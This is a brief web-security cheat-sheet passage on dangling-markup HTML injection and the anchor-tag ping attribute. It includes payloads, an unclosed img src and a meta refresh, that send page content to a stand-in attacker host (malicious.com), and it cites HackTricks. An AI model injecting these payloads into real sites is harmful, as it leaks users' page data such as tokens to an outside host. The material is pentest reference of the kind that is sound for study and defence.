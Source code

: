 
## Dangling markup
In dangling markup, you want to not terminate the string from your payload to compromise everything in between your payload and the following 
```
" ' `
```

```html
<img src='http://malicious.com/?c=
<meta http-equiv="refresh" content='4; URL=https://malicious.com/?c=
```
https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection

## Ping

You can make a webserver ping another webserver by using the attribute ping of the `<a>` tag.

```html
<a ping="malicious_site">
```